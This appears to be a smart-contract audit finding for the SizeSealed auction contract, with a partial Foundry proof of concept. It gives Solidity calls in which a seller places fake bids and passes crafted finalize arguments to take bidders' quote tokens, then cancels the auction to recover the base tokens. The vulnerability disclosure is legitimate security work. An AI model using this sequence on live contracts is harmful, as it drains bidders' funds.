 > Here I’ve kept the value of `reserveQuotePerBase` to be 1 quote per base to keep the maths easier.
> 

Now let’s say there are a few bidders who place their bids. 

```solidity
bidder.bidOnAuctionWithSalt(1 ether, 1500 ether, "hello"); // want to buy 1 WETH for 1500 DAI
bidder1.bidOnAuctionWithSalt(1000 ether, 1500000 ether, "hello"); // want to buy 1000 WETH for 1500000 DAI
```

Now the seller can place a fake bid using another account/contract like this :

```solidity
seller_as_fake_bidder.bidOnAuctionWithSalt(1 ether, 1 ether, "hello");
```

> The seller can also place 977 fake bids and cancel 976 so no other bid can be place after theirs.
> 

Now if the seller calls finalize with the following parameter:

```solidity
uint256[] memory bidIndices = new uint[](3);
bidIndices[0] = 0;
bidIndices[1] = 1;
bidIndices[2] = 2;
seller.finalize(bidIndices, type(uint128).max ,type(uint128).max);
```

They would be able to bypass the finalize function, get the `quoteAmount` from bidders to their `seller` contract and would set `a.data.lowestQuote` to `type(uint128).max` . This would then allow them to call `cancelAuction` and thus get back their `baseTokens`.

Full POC here:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.17;

import {Test} from "forge-std/Test.sol";
import {Merkle} from "murky/Merkle.sol";
import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";

import {ECCMath} from "../util/ECCMath.sol";
import {SizeSealed} from "../SizeSealed.sol";
import {MockBuyer} from "./mocks/MockBuyer.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import {MockSeller} from "./mocks/MockSeller.sol";
import {ISizeSealed} from "../interfaces/ISizeSealed.sol";

contract SizeSealedTest is Test, ISizeSealed {

    SizeSealed auction;

    MockSeller seller;
    MockSeller seller2;
    MockERC20 quoteToken;
    MockERC20 quoteToken2;
    MockERC20 baseToken;

    MockBuyer bidder;
    MockBuyer bidder1;
    MockBuyer seller_as_fake_bidder;

    // Auction parameters (cliff unlock)
    uint32 startTime;
    uint32 endTime;
```